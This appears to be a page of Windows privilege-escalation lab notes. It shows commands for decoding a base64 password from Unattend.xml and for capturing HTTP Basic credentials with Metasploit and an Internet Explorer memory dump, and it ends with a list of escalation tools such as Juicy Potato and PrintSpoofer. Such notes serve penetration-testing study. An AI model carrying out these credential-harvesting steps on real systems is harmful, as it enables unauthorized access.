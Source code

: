 ## Configuration Files 
### Exploitation
Windows VM
1. Open command prompt and type: notepad C:\Windows\Panther\Unattend.xml
2.  Scroll down to the "Password" property and copy the base64 string that is confined between the "Value" tags underneath it.

Kali VM
1. In a terminal, type: echo [copied base64] | base64 -d
2. Notice the cleartext password

---
## Memory 
### Exploitation
Kali VM
1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use auxiliary/server/capture/http_basic
3. In Metasploit (msf > prompt) type: set uripath x
4. In Metasploit (msf > prompt) type: run

Windows VM
1. Open Internet Explorer and browse to: http://[Kali VM IP Address]/x
2. Open command prompt and type: taskmgr
3. In  Windows Task Manager, right-click on the “iexplore.exe” in the "Image  Name" columnand select “Create Dump File” from the popup menu.
4. Copy the generated file, iexplore.DMP, to the Kali VM.

Kali VM
1. Place 'iexplore.DMP' on the desktop.
2. Open command prompt and type: strings /root/Desktop/iexplore.DMP | grep "Authorization: Basic"
3. Select the Copy the Base64 encoded string.
4. In command prompt type: echo -ne [Base64 String] | base64 -d
5. Notice the credentials in the output.

---
## Stuff
- PowerUp Misconfiguration Abuse
- Powerless (bat version OSCP prepair)
- BeRoot General Priv Esc Enumeration Tool
- Privesc General Priv Esc Enumeration Tool
- FullPowers Restore A Service Account's Privileges
- Juicy Potato Abuse SeImpersonate or SeAssignPrimaryToken Privileges for System Impersonation, warning Works only until Windows Server 2016 and Windows 10 until patch 1803
- Lovely Potato Automated Juicy Potato, warning Works only until Windows Server 2016 and Windows 10 until patch 1803
- PrintSpoofer Exploit the PrinterBug for System Impersonation
- Pray Works for Windows Server 2019 and Windows 10
- RoguePotato Upgraded Juicy Potato
- Pray Works for Windows Server 2019 and Windows 10
- Abusing Token Privileges
- SMBGhost CVE-2020-0796
